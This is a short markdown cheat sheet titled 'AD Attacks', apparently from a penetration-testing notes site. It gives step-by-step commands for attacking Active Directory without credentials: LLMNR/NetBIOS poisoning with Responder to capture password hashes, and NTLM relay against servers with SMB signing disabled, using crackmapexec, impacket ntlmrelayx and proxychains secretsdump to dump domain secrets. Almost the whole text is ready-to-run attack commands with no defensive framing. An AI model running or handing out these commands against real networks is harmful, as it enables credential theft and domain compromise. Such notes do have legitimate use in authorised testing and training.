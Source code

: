 ```yaml
---
title: AD Attacks
category: Active Directory
order: 1
---
```


# Without Credentials

## LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

## NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

### Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = On
```

### Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```
